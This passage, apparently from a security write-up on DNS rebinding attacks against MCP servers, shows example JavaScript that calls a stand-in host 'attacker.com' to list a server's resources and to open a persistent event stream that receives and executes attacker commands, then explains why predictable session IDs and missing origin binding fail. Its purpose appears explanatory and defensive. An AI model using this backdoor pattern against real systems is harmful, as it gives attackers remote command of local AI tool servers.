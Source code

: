 ```javascript
    // List resources
    const resources = await fetch('http://attacker.com:3000/mcp', {
        method: 'POST',
        body: JSON.stringify({
            jsonrpc: "2.0",
            method: "resources/list"
        })
    });
    
    // Now attacker knows full capability set
}
```

### Scenario 3: Persistent Backdoor
```javascript
// Establish SSE connection that survives DNS changes
const eventSource = new EventSource('http://attacker.com:3000/mcp/events');

eventSource.onmessage = function(event) {
    // Receive commands from attacker
    const command = JSON.parse(event.data);
    executeMCPCommand(command);
};

// Connection persists even after DNS rebinding expires!
```

## Why Session Validation Doesn't Help (If Weak)

### Predictable Session IDs
```
Weak implementations:
- session_id = timestamp
- session_id = incrementing counter
- session_id = MD5(username + date)

Attacker can:
1. Predict valid session IDs
2. Brute force current sessions
3. Replay observed sessions
```

### No Origin Binding
```
Even with session IDs, if not bound to origin:
1. Legitimate user creates session from localhost
2. DNS rebinding occurs
3. Attacker reuses same session ID
4. Server accepts because session is "valid"
```
